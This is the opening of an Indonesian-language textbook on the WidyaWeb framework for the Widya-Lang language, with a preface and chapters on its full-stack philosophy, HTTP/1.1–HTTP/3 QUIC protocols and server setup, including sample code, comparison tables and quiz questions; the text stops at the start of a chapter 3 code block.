# PENGANTAR PENERBIT & PRAKATA PENULIS

Selamat datang di **Buku Panduan Komprehensif WidyaWeb: Rekayasa Aplikasi Web Modern Skala Industri**. Buku ini merupakan jilid resmi kedua dalam serial ekosistem bahasa pemrograman Widya-Lang, yang didedikasikan secara khusus untuk membedah arsitektur, metodologi, dan implementasi praktis dalam membangun platform web enterprise berkinerja tinggi.

---

## Urgensi & Visi Ekosistem WidyaWeb

Lanskap pengembangan aplikasi web modern sering kali terjebak dalam kompleksitas yang berlebihan (*over-engineering*): rantai alat kompilasi JavaScript yang rapuh, beban memori runtime yang membengkak akibat Virtual DOM, ketergantungan pada ribuan paket pihak ketiga yang rentan kerentanan keamanan rantai pasok (*supply chain attacks*), serta jurang pemisah yang lebar antara lapisan perenderan frontend dan mesin basis data backend.

WidyaWeb hadir sebagai jawaban revolusioner atas tantangan tersebut. Dirancang langsung di atas fondasi sistem tipe ketat dan kinerja dekat-mesin Widya-Lang, WidyaWeb menyatukan seluruh siklus hidup aplikasi web modern:
1. **Frontend Tanpa Kompromi**: Paradigma reaktivitas berbasis *Signals* berbutir halus (*fine-grained reactivity*), perenderan sisi server (*Streaming SSR*), arsitektur komponen terisolasi (*Islands Architecture*) dengan filosofi *Zero-JS by Default*, serta desain sistem UI modern berbasis Vanilla CSS murni.
2. **Backend & Gateway Berdaya Tahan Tinggi**: Dukungan native protokol generasi terbaru HTTP/3 (QUIC) dan HTTP/2, proksi pembalik (*Reverse Proxy*) dengan penyeimbangan beban *Power of Two Choices* (P2C), mitigasi serangan berbasis Token Bucket Rate Limiting, serta komunikasi dua arah real-time melalui WebSockets dan Server-Sent Events (SSE).
3. **Integrasi Basis Data Native WidyaBase**: Konektivitas protokol kabel Pgwire v3.0, partisi tabel relasional kuartal, mesin pencarian teks penuh probabilistik BM25 dengan *Indonesian Stemmer* bawaan, graf vektor HNSW untuk rekomendasi kecerdasan buatan (AI), singgahan mikrodetik protokol RESP, serta sinkronisasi peristiwa *Change Data Capture* (CDC).

---

## Studi Kasus Industri: Portal Berita Nasional NusantaraNews

Untuk memberikan pengalaman belajar yang membumi, aplikatif, dan kontekstual, seluruh materi dalam buku ini diikat oleh satu benang merah proyek komprehensif: **Portal Berita NusantaraNews**. Melalui 40 bab yang terstruktur secara pedagogis, Anda diajak membangun portal berita nasional kelas dunia dari baris kode pertama hingga orkestrasi kontainer OCI di lingkungan produksi:
- **Bagian I (Bab 1–8)**: Fondasi Inti, Protokol Jaringan HTTP/3 QUIC, Server Native, dan Reaktivitas Signals.
- **Bagian II (Bab 9–16)**: Desain Antarmuka Reaktif, Token Desain Vanilla CSS, Tata Letak Editorial Grid, Media Adaptif, Aksesibilitas WCAG 2.1 AA, dan Modul WebAssembly.
- **Bagian III (Bab 17–24)**: Arsitektur RESTful JSON:API, API Gateway Nusantara, Rate Limiting, Resiliensi Circuit Breaker, WebSockets, SSE Breaking News, dan Antrean Tugas Latar Belakang.
- **Bagian IV (Bab 25–32)**: Konektivitas WidyaBase, Pemodelan Skema Terpartisi, FTS BM25 & Stemmer Bahasa Indonesia, AI Vektor Rekomendasi, Caching RESP, CDC WAL, S3 Media Store, dan Paywall Finansial ACID.
- **Bagian V (Bab 33–40)**: Keamanan Siber JWT Ed25519, Autentikasi Biometrik WebAuthn/Passkeys, Matriks RBAC Redaksi, Mitigasi OWASP Top 10, Observabilitas Prometheus, Uji Beban K6 50.000 VU, Kontainerisasi OCI, Offline PWA, serta Capstone Akhir.

---

## Petunjuk Penggunaan Buku

Setiap bab dirancang secara konsisten dengan anatomi 5 subbab baku:
- **Subbab X.1 Konsep Teoretis & Diagram Alir**: Pemahaman arsitektur mendalam yang divisualisasikan melalui diagram Mermaid standar industri.
- **Subbab X.2 Implementasi Kode Widya-Lang & WidyaWeb**: Kode sumber fungsional, bertipe aman, dan siap pakai tanpa pustaka pihak ketiga yang membingungkan.
- **Subbab X.3 Analisis Kinerja, Keamanan & Tabel Metrik**: Perbandingan empiris matematis, metrik Core Web Vitals, dan justifikasi rekayasa perangkat lunak.
- **Subbab X.4 Latihan Praktik & Studi Kasus**: Tiga tugas terarah untuk mengasah ketajaman analisis pengembang.
- **Subbab X.5 Evaluasi Mandiri Pilihan Ganda**: Sepuluh butir soal pilihan ganda beropsi A, B, C, D untuk mengukur penguasaan materi secara mandiri.

Pada bagian akhir buku, tersedia 4 Lampiran esensial, termasuk **Lampiran D** yang menyajikan pembahasan solusi komprehensif untuk seluruh **120 soal latihan esai** dan **400 kunci jawaban pilihan ganda** beserta ulasan ilmiahnya.

Selamat membaca, bereksperimen, dan berkarya dalam membangun ekosistem web modern Indonesia yang tangguh, cepat, dan mandiri!

*Jakarta, Oktober 2026*  
**Tim Riset & Pengembang Widya-Lang**

---

## Bab 1: Filosofi WidyaWeb & Paradigma Full-Stack Terpadu

### 1.1 Kedaulatan Aplikasi Web: Menembus Ketergantungan Ekosistem Luar

Aplikasi web modern telah berkembang dari sekadar dokumen hiperteks statis menjadi platform perangkat lunak yang sangat kompleks: portal berita nasional dengan jutaan pembaca harian, sistem perbankan daring, platform logistik niaga elektronik, dan portal pelayanan publik satu pintu (*Single Sign-On* pemerintahan).

Namun, selama dua dekade terakhir, industri rekayasa perangkat lunak web terjebak dalam ketergantungan yang rapuh terhadap ekosistem perangkat lunak asing yang sarat beban:
1. **Proliferasi Ketergantungan Rantai Pasok (*Dependency Hell*)**: Sebuah aplikasi web berbasis Node.js biasa sering kali memuat puluhan ribu pustaka mini pihak ketiga di dalam direktori `node_modules` (sering kali berukuran ratusan megabyte hingga gigabyte), yang rentan disusupi kode jahat (*supply-chain attacks*).
2. **Fragmentasi Tumpukan Teknologi (*Tech Stack Fragmentation*)**: Pengembang dipaksa mengelola bahasa, runtime, dan format data yang berbeda antara peramban (JavaScript/TypeScript), peladen back end (Go/Java/Python), gateway reverse proxy (Nginx/Envoy), dan basis data (SQL terpisah), memicu duplikasi logika dan celah keamanan serialisasi.

**WidyaWeb** hadir sebagai kerangka kerja aplikasi web terpadu (*Unified Full-Stack Web Framework*) berdaulat tingkat industri yang dibangun 100% menggunakan bahasa pemrograman Widya-Lang dan Rust native:
- **Satu Bahasa, Satu Runtime**: Logika antarmuka pengguna front end, server back end, pipeline middleware, hingga kueri basis data ditulis menggunakan bahasa pemrograman berdaulat yang sama.
- **Kemandirian Bebas Dependensi Eksternal**: Berjalan secara mandiri tanpa memerlukan Node.js, V8 engine, npm, maupun server web pihak ketiga.
- **Kinerja Skala Industri**: Mampu melayani puluhan ribu permintaan HTTP konkuren per detik dengan jejak memori RAM yang sangat kecil (< 30 MB pada kondisi siaga).

```mermaid
flowchart TD
    Klien["Peramban Klien (Desktop / Ponsel / Tablet)"] -->|Protokol HTTP/3 QUIC & HTTP/2 (Port 443)| Gateway["Lapisan Gerbang Masuk & Terminasi TLS (pure_http3.rs)"]
    subgraph ArsitekturWidyaWeb["Inti Ekosistem WidyaWeb Full-Stack (100% Native Widya-Lang)"]
        Gateway --> Router["Router Trie Kecepatan Tinggi (pure_router.rs)"]
        Router --> Middleware["Rantai Middleware: Auth, RateLimiter, CORS, Logger (pure_middleware.rs)"]
        Middleware --> Kontroler["Kontroler Back End & Server Actions (pure_actions.rs)"]
        Kontroler --> SSR["Mesin Server-Side Rendering & Island Hidrasi (pure_ssr.rs)"]
        Kontroler --> Streaming["Saluran Streaming SSE & WebSockets (pure_streaming.rs)"]
    end
    Kontroler -->|Koneksi Native Wire Protocol pgwire v3.0 / RESP| DB["Mesin Basis Data Terpadu WidyaBase (Relasional, Vektor AI, Teks BM25)"]
    SSR -->|Dokumen HTML Semantik Terkompresi Brotli/Zstandard| Klien
```

Prinsip fundamental arsitektur WidyaWeb:
1. **Server-Driven Reactivity**: Kode HTML awal dirender secara instan di server (*Server-Side Rendering*) demi SEO dan kecepatan pemuatan pertama (*First Contentful Paint*), lalu pulau-pulau interaktif (*Islands of Interactivity*) dihidrasi secara dinamis tanpa mengunduh bundel JavaScript monolitik.
2. **Konektivitas Terpadu WidyaBase**: Terintegrasi secara native dengan basis data WidyaBase—memungkinkan kueri data dwibahasa, pencarian semantik vektor AI, dan pendeteksian perubahan real-time (*CDC live updates*) langsung ke antarmuka pengguna tanpa server perantara.
3. **Keamanan Tanpa Kompromi**: Bebas dari kerentanan injeksi memori (*memory safety* berkat borrow checker Widya-Lang) dan dilengkapi perlindungan bawaan terhadap OWASP Top 10 (CSRF, XSS, SQLi, SSRF).

### 1.2 Implementasi Kode Program Utuh

Berikut implementasi dasar inisialisasi aplikasi web portal berita menggunakan WidyaWeb pada Widya-Lang:

```widya
// Modul Inisialisasi Aplikasi Portal Berita WidyaWeb
modul aplikasi_portal_berita {
    impor ekosistem::widyaweb::{
        WidyaWeb, ServerHttp, PermintaanHttp, ResponHttp,
        PeruteTrie, StatusHttp, KontenTipe
    };

    fungsi inisialisasi_peladen_berita() -> Hasil<Boolean, Teks> {
        cetak("==================================================================");
        cetak(">>> [WIDYAWEB] Menginisialisasi Peladen Portal Berita NusantaraNews...");

        // 1. Instansiasi Server Web Native
        biar mut server = ServerHttp::buat();
        server.tetapkan_nama_aplikasi("NusantaraNews Berdaulat");
        server.tetapkan_port(8080);

        // 2. Registrasi Rute Beranda Publik
        server.rute_get("/", |permintaan: PermintaanHttp| -> ResponHttp {
            biar html_beranda = "
                <!DOCTYPE html>
                <html lang='id'>
                <head>
                    <meta charset='UTF-8'>
                    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
                    <title>NusantaraNews - Suara Kedaulatan Bangsa</title>
                    <style>
                        body { font-family: 'Inter', sans-serif; background: #0f172a; color: #f8fafc; margin: 0; padding: 2rem; }
                        header { border-bottom: 2px solid #38bdf8; padding-bottom: 1rem; margin-bottom: 2rem; }
                        h1 { color: #38bdf8; margin: 0; font-size: 2.2rem; }
                        .headline { background: #1e293b; padding: 1.5rem; border-radius: 8px; border-left: 4px solid #ef4444; }
                    </style>
                </head>
                <body>
                    <header>
                        <h1>NusantaraNews</h1>
                        <p>Portal Berita Terpercaya Berbasis Ekosistem Komputasi Berdaulat</p>
                    </header>
                    <main>
                        <article class='headline'>
                            <h2>Indonesia Luncurkan Ekosistem Komputasi Widya-Lang</h2>
                            <p>Kedaulatan teknologi informasi nasional kini berdiri kokoh di atas fondasi native.</p>
                        </article>
                    </main>
                </body>
                </html>
            ";
            kembalikan ResponHttp::ok(KontenTipe::Html, html_beranda);
        });

        // 3. Registrasi Rute Status Kesehatan Sistem (Healthcheck)
        server.rute_get("/api/v1/kesehatan", |_permintaan: PermintaanHttp| -> ResponHttp {
            biar status_json = "{\"status\": \"SEHAT\", \"mesin\": \"WidyaWeb Core v2.5.0\", \"memori_mb\": 18.4}";
            kembalikan ResponHttp::ok(KontenTipe::Json, status_json);
        });

        cetak(">>> [WIDYAWEB] Rute berhasil didaftarkan. Membuka soket jaringan...");
        server.jalankan_asinkron()?;
        cetak(">>> [WIDYAWEB] Peladen NusantaraNews aktif di http://localhost:8080");
        cetak("==================================================================");

        kembalikan Ok(benar);
    }
}
```

### 1.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan arsitektur web konvensional vs arsitektur berdaulat WidyaWeb:

| Karakteristik Evaluasi | Node.js / Express / Next.js | Go / Gin / React SPA | WidyaWeb Full-Stack Berdaulat |
| :--- | :--- | :--- | :--- |
| **Ketergantungan Eksternal** | Ribuan dependensi `node_modules` | Pustaka runtime ganda (Go + Node) | **Nol Dependensi (100% Native)** |
| **Konsumsi Memori Siaga** | 120 – 350 MB RAM per instance | 40 – 80 MB RAM | **15 – 30 MB RAM (Sangat Ringan)** |
| **Keamanan Rantai Pasok** | Sangat Rentan Paket Berbahaya | Sedang | **Aman Berdaulat (In-Tree Audit)** |
| **Waktu Pemuatan Awal (FCP)**| Lambat (Download JS ratusan KB) | Lambat jika SPA monolitik | **Sangat Cepat via Native SSR** |
| **Integrasi Basis Data** | Driver JDBC/Prisma pihak ketiga | Driver SQL eksternal | **Terpadu Langsung ke WidyaBase** |

### 1.4 Latihan Soal Esai

1. Mengapa proliferasi ribuan pustaka pihak ketiga (*dependency hell*) pada ekosistem JavaScript/Node.js modern menimbulkan risiko keamanan dan kedaulatan teknologi informasi yang sangat berbahaya bagi institusi negara?
2. Terangkan keunggulan pendekatan *Unified Full-Stack Web Framework* di mana logika antarmuka pengguna, pemrosesan back end, dan kueri basis data diintegrasikan dalam satu bahasa pemrograman Widya-Lang!
3. Uraikan bagaimana arsitektur WidyaWeb mengoptimalkan metrik vital web (*Core Web Vitals*) seperti *First Contentful Paint* (FCP) dan *Largest Contentful Paint* (LCP) pada portal berita nasional!

### 1.5 Soal Pilihan Ganda

1. Filosofi utama yang mendasari perancangan kerangka kerja web WidyaWeb adalah...
   A. Menghadirkan kerangka kerja aplikasi web terpadu berdaulat 100% native tanpa ketergantungan runtime pihak ketiga
   B. Menghapus kebutuhan jaringan internet
   C. Mengganti seluruh protokol HTTP dengan Bluetooth
   D. Mematikan fungsi peramban web modern

2. Kelemahan paling mencolok dari arsitektur aplikasi web berbasis direktori `node_modules` konvensional adalah...
   A. Beban ribuan dependensi pihak ketiga yang rentan serangan rantai pasok (supply-chain attack)
   B. Tidak mendukung huruf kapital
   C. Hanya berjalan di komputer mainframe
   D. Menolak pemrosesan data angka

3. Pendekatan rendering antarmuka di mana kode HTML halaman awal dirender secara instan di sisi server dinamakan...
   A. Server-Side Rendering (SSR)
   B. Client-Side Parsing
   C. Manual Formatting
   D. Local Storage Dump

4. Konsumsi memori RAM pada kondisi siaga (idle memory footprint) dari server web WidyaWeb rata-rata berkisar antara...
   A. 15 hingga 30 MB RAM
   B. 4 hingga 8 Gigabyte RAM
   C. Tepat 0 byte
   D. 1 Terabyte

5. Modul pada WidyaWeb yang menangani perutean kueri kecepatan tinggi menggunakan struktur data Trie adalah...
   A. `pure_router.rs`
   B. `pure_image.rs`
   C. `legacy_parser.rs`
   D. `printer_spooler.rs`

6. Manfaat utama dari konsep *Islands of Interactivity* pada WidyaWeb adalah...
   A. Hanya menghidrasi elemen komponen yang memerlukan interaktivitas pengguna tanpa membebani browser dengan bundel JavaScript monolitik
   B. Mematikan fungsi klik mouse
   C. Menghapus koneksi CSS
   D. Mengubah teks menjadi gambar

7. Bahasa pemrograman yang digunakan untuk membangun mesin inti WidyaWeb secara 100% native adalah...
   A. Widya-Lang dan Rust murni
   B. Python dan PHP 4
   C. Visual Basic 6
   D. Fortran 77

8. Protokol komunikasi jaringan terdepan yang didukung secara native oleh WidyaWeb pada port 443 adalah...
   A. HTTP/3 berbasis QUIC dan HTTP/2 Multiplexing
   B. Telnet Polos
   C. Gopher Protocol
   D. IRC Chat

9. Bagaimana WidyaWeb mencegah ancaman injeksi SQL pada lapisan pemrosesan kueri basis data?
   A. Mengintegrasikan driver native berkemampuan penyiapan pernyataan parametrik (Prepared Statements) ke WidyaBase
   B. Mematikan fungsi database
   C. Mengubah kueri menjadi file PDF
   D. Menghapus kata kunci SELECT

10. Mengapa portal berita nasional seperti NusantaraNews sangat diuntungkan oleh adopsi teknologi native WidyaWeb?
    A. Mampu melayani jutaan pembaca secara bersamaan saat peristiwa breaking news dengan latensi sub-detik dan efisiensi server tinggi
    B. Berita otomatis ditulis oleh komputer tanpa wartawan
    C. Menghapus kebutuhan editor berita
    D. Menjadikan server kebal terhadap mati lampu

---

## Bab 2: Anatomi Protokol Web: HTTP/1.1, HTTP/2 & HTTP/3 QUIC

### 2.1 Evolusi Transportasi Web: Dari TCP Menuju UDP QUIC

Komunikasi data antara peramban web klien dan peladen portal berita berlangsung melalui protokol lapisan aplikasi **Hypertext Transfer Protocol (HTTP)**. Memahami evolusi, kelebihan, dan kelemahan dari setiap generasi protokol HTTP sangat krusial bagi arsitek perangkat lunak web skala industri.

WidyaWeb dirancang dengan dukungan multi-protokol native (`pure_http.rs` dan `pure_http3.rs`), mampu melayani klien mulai dari protokol HTTP/1.1 warisan hingga protokol mutakhir **HTTP/3 berbasis QUIC**:
1. **HTTP/1.1 (1997 - TCP Polos)**:
   - *Kelemahan Head-of-Line (HoL) Blocking pada Lapisan Aplikasi*: Klien hanya dapat mengirim satu permintaan per koneksi TCP dalam satu waktu. Jika ada berkas gambar besar yang lambat diunduh, permintaan dokumen lainnya di belakangnya akan tertahan.
   - *Solusi Tambal Sulam*: Membuka 6 koneksi TCP paralel per domain (*domain sharding*), yang memboroskan alokasi memori peladen dan lambat pada fase jabat tangan TCP 3-Way Handshake.
2. **HTTP/2 (2015 - Binary Framing)**:
   - *Multipleksing Biner*: Membagi permintaan dan respons ke dalam frame-frame biner independen yang dialirkan melintasi satu koneksi TCP tunggal.
   - *Kompresi Header HPACK*: Mengurangi beban overhead header berulang (seperti User-Agent, Cookie) hingga 85%.
   - *Kelemahan TCP HoL Blocking*: Meskipun mengatasi HoL pada tingkat aplikasi, jika terjadi satu paket TCP yang hilang (*packet drop*) akibat sinyal seluler buruk, seluruh aliran data HTTP/2 di dalam koneksi tersebut akan membeku menunggu pengiriman ulang paket TCP.
3. **HTTP/3 (2022 - QUIC / UDP Murni)**:
   - *Mengganti TCP dengan QUIC di Atas UDP*: QUIC mengintegrasikan lapisan transportasi (UDP), enkripsi keamanan (TLS 1.3), dan kontrol kongesti ke dalam satu lapisan tunggal.
   - *Bebas Head-of-Line Blocking Mutlak*: Setiap aliran (*stream*) HTTP/3 independen secara fisik. Kehilangan satu paket data pada aliran video tidak akan pernah menghentikan aliran teks berita.
   - *Jabat Tangan Nol Putaran Waktu (0-RTT Handshake)*: Klien yang pernah terhubung sebelumnya dapat mengirimkan data permintaan HTTP seketika pada paket pertama tanpa menunggu jabat tangan selesai (*Zero Round-Trip Time*).
   - *Migrasi Koneksi Mulus (Connection Migration)*: Pengguna ponsel yang beralih dari jaringan Wi-Fi rumah ke jaringan seluler 4G/5G tidak mengalami pemutusan koneksi (*no reconnect*) karena identitas koneksi diikat oleh *Connection ID 64-bit*, bukan kombinasi IP dan Port.



### 2.2 Implementasi Kode Program Utuh

Berikut implementasi konfigurasi dan penanganan peladen multi-protokol HTTP/2 dan HTTP/3 QUIC pada WidyaWeb menggunakan Widya-Lang:

```widya
// Modul Penanganan Protokol HTTP/2 dan HTTP/3 QUIC WidyaWeb
modul penanganan_protokol_web {
    impor ekosistem::widyaweb::{
        WidyaWeb, PeladenMultiProtokol, KonfigurasiQUIC,
        KonfigurasiTLS, VersiProtokol, PermintaanStream
    };

    fungsi jalankan_peladen_http3_berdaulat() -> Hasil<Boolean, Teks> {
        cetak("==================================================================");
        cetak(">>> [HTTP3-QUIC] Mengonfigurasi Peladen Multi-Protokol Berita...");

        // 1. Konfigurasikan Enkripsi TLS 1.3 Wajib untuk HTTP/2 dan HTTP/3
        biar mut tls_config = KonfigurasiTLS::buat();
        tls_config.muat_sertifikat("/etc/widya/ssl/nusantaranews.crt", "/etc/widya/ssl/nusantaranews.key")?;
        tls_config.tetapkan_protokol_alpn(["h3", "h2", "http/1.1"]);

        // 2. Konfigurasikan Parameter Mesin QUIC UDP
        biar mut quic_config = KonfigurasiQUIC::buat();
        quic_config.aktifkan_0rtt(benar); // Mengizinkan Zero Round-Trip Time
        quic_config.tetapkan_waktu_tunggu_detik(30);
        quic_config.tetapkan_maksimal_aliran_bersamaan(256);

        // 3. Bangun Peladen Multi-Protokol pada Port 443 (TCP & UDP)
        biar mut peladen = PeladenMultiProtokol::buat(tls_config, quic_config);
        peladen.ikat_alamat("0.0.0.0", 443)?;

        // 4. Registrasi Handler Aliran Data Independen
        peladen.tangani_aliran(|stream: PermintaanStream| {
            biar versi = stream.versi_protokol();
            biar jalur = stream.jalur_uri();

            cetak(">>> [INCOMING] Jalur: " + jalur + " | Versi: " + versi.nama_teks());

            cocokkan versi {
                VersiProtokol::Http3 => {
                    // Beri header Alt-Svc untuk mengonfirmasi dukungan HTTP/3
                    stream.tulis_header("Alt-Svc", "h3=\":443\"; ma=86400");
                    stream.kirim_respon_teks(200, "Halo dari HTTP/3 QUIC Nusantara! Latensi ultra-rendah.");
                },
                VersiProtokol::Http2 => {
                    stream.tulis_header("Alt-Svc", "h3=\":443\"; ma=86400");
                    stream.kirim_respon_teks(200, "Halo dari HTTP/2 Multiplexed Stream.");
                },
                VersiProtokol::Http11 => {
                    stream.tulis_header("Alt-Svc", "h3=\":443\"; ma=86400");
                    stream.kirim_respon_teks(200, "Halo dari HTTP/1.1 Kompatibilitas Warisan.");
                }
            }
        });

        cetak(">>> [HTTP3] Peladen QUIC aktif mendengarkan di UDP port 443.");
        cetak(">>> [HTTP2] Peladen TCP aktif mendengarkan di TCP port 443.");
        cetak("==================================================================");

        kembalikan Ok(benar);
    }
}
```

### 2.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan teknis evolusi tiga generasi protokol HTTP pada WidyaWeb:

| Karakteristik Protokol | HTTP/1.1 (RFC 2616) | HTTP/2 (RFC 7540) | HTTP/3 QUIC (RFC 9114) |
| :--- | :--- | :--- | :--- |
| **Protokol Lapisan Transpor** | TCP (Transmission Control) | TCP (Transmission Control) | **UDP (User Datagram Protocol)** |
| **Penyandian Pesan** | Format Teks Karakter Terbuka | Frame Biner (*Binary Framing*) | **Frame Biner Terenkripsi QUIC** |
| **Kompresi Header** | Tidak Ada (Header Mentah) | HPACK (Kamus Statis/Dinamis)| **QPACK (Bebas Hambatan Urutan)** |
| **Multiplexing Permintaan** | Tidak (Perlu Buka Banyak TCP) | Ya (Banyak Stream per TCP) | **Ya (Stream Independen Murni)** |
| **Head-of-Line (HoL) Blocking**| Parah di Lapisan Aplikasi | Parah di Lapisan Paket TCP | **NOL MUTLAK (Bebas Total)** |
| **Waktu Jabat Tangan (RTT)** | 2–3 RTT (TCP + TLS terpisah) | 2–3 RTT (TCP + TLS) | **0-RTT s/d 1-RTT Instan** |
| **Migrasi Jaringan (Wi-Fi/Seluler)**| Koneksi Putus & Buat Ulang | Koneksi Putus & Buat Ulang | **Mulus via Connection ID 64-bit** |

### 2.4 Latihan Soal Esai

1. Terangkan fenomena *Head-of-Line (HoL) Blocking* pada protokol HTTP/1.1 dan bagaimana HTTP/2 mencoba menyelesaikannya! Mengapa solusi HTTP/2 masih menyisakan masalah HoL pada lapisan transportasi TCP?
2. Bagaimana arsitektur protokol QUIC pada HTTP/3 menyatukan lapisan transportasi dan enkripsi keamanan TLS 1.3 sehingga mampu menghasilkan jabat tangan nol putaran waktu (*Zero Round-Trip Time* / 0-RTT)?
3. Jelaskan cara kerja fitur *Connection Migration* pada HTTP/3 ketika seorang pembaca portal berita NusantaraNews berpindah koneksi dari jaringan Wi-Fi kantor ke jaringan seluler 4G di jalan raya tanpa mengulang unduhan berita!

### 2.5 Soal Pilihan Ganda

1. Protokol lapisan transportasi yang digunakan oleh standar protokol HTTP/3 adalah...
   A. UDP (User Datagram Protocol) via QUIC
   B. TCP Polos
   C. ICMP
   D. AppleTalk

2. Algoritma kompresi header yang digunakan secara khusus pada protokol HTTP/3 untuk mencegah hambatan urutan adalah...
   A. QPACK
   B. HPACK
   C. Gzip
   D. MP3

3. Kelemahan paling mendasar dari protokol HTTP/2 saat menghadapi kehilangan paket (*packet loss*) pada jaringan yang tidak stabil adalah...
   A. Terjadinya TCP Head-of-Line Blocking yang membekukan seluruh aliran data di dalam koneksi tunggal
   B. Layar komputer otomatis mati
   C. Data terenkripsi menjadi teks terbaca
   D. Alamat IP pengguna terhapus

4. Fitur pada HTTP/3 yang memungkinkan pengiriman data permintaan pada kontak koneksi pertama tanpa jeda jabat tangan dinamakan...
   A. 0-RTT Handshake (Zero Round-Trip Time)
   B. Slow Start
   C. Half-Duplex
   D. Ping-Pong Delay

5. Header HTTP standar yang dikirimkan oleh peladen untuk memberi tahu peramban bahwa situs tersebut mendukung protokol HTTP/3 pada port tertentu adalah...
   A. `Alt-Svc` (Alternative Services)
   B. `Upgrade-Insecure`
   C. `X-Powered-By`
   D. `Set-Cookie`

6. Pengenal yang digunakan oleh protokol QUIC untuk mempertahankan kelangsungan koneksi saat alamat IP klien berubah adalah...
   A. Connection ID (64-bit)
   B. Nomor KTP
   C. Alamat MAC Kartu Jaringan
   D. Nomor Port Serial

7. Standar enkripsi keamanan minimal yang diwajibkan secara mutlak pada protokol HTTP/3 adalah...
   A. TLS 1.3
   B. SSL 2.0
   C. DES 56-bit
   D. ROT13

8. Pada protokol HTTP/1.1, teknik membuka beberapa koneksi TCP secara bersamaan ke beberapa subdomain yang berbeda dinamakan...
   A. Domain Sharding
   B. Stream Multiplexing
   C. Zero Copy
   D. Frame Packing

9. Karakteristik utama dari format penyandian frame pada protokol HTTP/2 dan HTTP/3 dibandingkan HTTP/1.1 adalah...
   A. Menggunakan format frame biner yang jauh lebih ringkas dan efisien diurai oleh prosesor
   B. Menggunakan huruf cetak tebal
   C. Menghapus seluruh tanda baca
   D. Menyimpan data dalam format gambar

10. Mengapa dukungan protokol HTTP/3 QUIC sangat penting bagi portal berita nasional di Indonesia?
    A. Mengoptimalkan kecepatan akses berita bagi masyarakat di daerah kepulauan dan pelosok dengan kondisi jaringan seluler yang berfluktuasi tinggi
    B. Supaya tidak perlu membayar kuota internet
    C. Menghilangkan kebutuhan server web
    D. Menjadikan berita dapat dibaca tanpa listrik

---

## Bab 3: Server HTTP Native WidyaWeb & I/O Event Loop

### 3.1 Model I/O Berperforma Tinggi: Menangani Puluhan Ribu Koneksi

Salah satu faktor penentu kapasitas sebuah peladen portal berita nasional adalah bagaimana arsitektur peladen menangani ribuan sambungan soket jaringan yang masuk secara serentak (*C10K / C100K Problem*).

Tiga model konkurensi peladen web dalam sejarah rekayasa perangkat lunak:
1. **Model Utas-per-Koneksi (*Thread-per-Connection / Apache Model*)**: Setiap koneksi TCP baru dialokasikan satu thread sistem operasi tersendiri. Ketika jumlah pengunjung melonjak hingga 10.000 koneksi, pemborosan memori RAM (stack thread 2–8 MB per utas) dan overhead pergantian konteks (*context switching overhead*) akan melumpuhkan CPU seketika.
2. **Model Multi-Pekerja Non-Blocking Berbasis Event Loop (*WidyaWeb Native Engine*)**: Menggunakan primitif multiplexing I/O kernel Linux modern (`epoll` / `io_uring`) dan model pengalihan kerja *Thread Pool Worker*:
   - *Utas Penerima (*Acceptor Thread*)*: Bertugas murni menerima jabat tangan koneksi TCP baru dan mendaftarkan deskriptor berkas soket ke dalam pengawas event loop.
   - *Utas Pekerja (*Worker Thread Pool*)*: Kumpulan utas pekerja yang disesuaikan dengan jumlah inti fisik prosesor CPU (`num_cpus`). Utas ini mengeksekusi penguraian paket HTTP, perutean, pemrosesan logika bisnis, dan pengembalian respons secara non-blocking.



Fitur unggulan server HTTP native WidyaWeb (`pure_http.rs`):
- **Alokasi Nol (*Zero-Copy Parsing*)**: Header HTTP dan parameter URL diurai langsung sebagai potongan referensi (*slices* `&str`) di atas buffer memori soket masukan tanpa alokasi memori heap baru.
- **Dukungan Keep-Alive Cerdas**: Mempertahankan koneksi TCP terbuka untuk permintaan berulang berikutnya dengan batas waktu adaptif (*adaptive idle timeout*).
- **Proteksi Ambang Batas Sambungan (*Backpressure & Max Concurrency*)**: Jika antrean tugas melebihi kapasitas aman, peladen secara elegan merespons dengan status `503 Service Unavailable` alih-alih mengalami kehabisan memori (*Out-Of-Memory Crash*).

### 3.2 Implementasi Kode Program Utuh

Berikut implementasi server HTTP non-blocking multi-threaded native pada WidyaWeb menggunakan Widya-Lang:

```widya
